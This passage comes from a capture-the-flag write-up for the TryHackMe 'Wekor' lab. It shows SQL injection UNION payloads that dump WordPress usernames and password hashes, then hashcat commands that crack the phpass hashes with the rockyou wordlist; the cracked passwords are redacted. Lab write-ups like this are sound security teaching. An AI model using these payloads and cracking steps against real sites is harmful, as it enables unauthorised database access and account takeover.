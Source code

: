 The useful columns are only 2: **user_login** and **user_pass** → Let get them out:

```
'UNION SELECT user_login,user_pass,NULL FROM wordpress.wp_users#
```

![Untitled](/assets/Wekor%20images/Untitled%209.png)

Using `group_concat()` helps me to copy them easier:

```
'UNION SELECT group_concat(user_login,":",user_pass),NULL,NULL FROM wordpress.wp_users#
```

![Untitled](/assets/Wekor%20images/Untitled%2010.png)

Googling to identify their type of hash and the result is **phpass**. Then I use `hashcat` to crack the hashes:

```
┌──(kali㉿kali)-[~/TryHackMe/wekor]
└─$ hashcat --help | grep "phpass"
    400 | phpass                                                     | Generic KDF
```

```
┌──(kali㉿kali)-[~/TryHackMe/wekor]
└─$ hashcat -a 0 -m 400 hash ~/Wordlists/rockyou.txt
hashcat (v6.2.6) starting
[...]
Dictionary cache hit:
* Filename..: /home/kali/Wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10:[REDACTED]
$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/:[REDACTED]
$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/:[REDACTED]
[...]
```
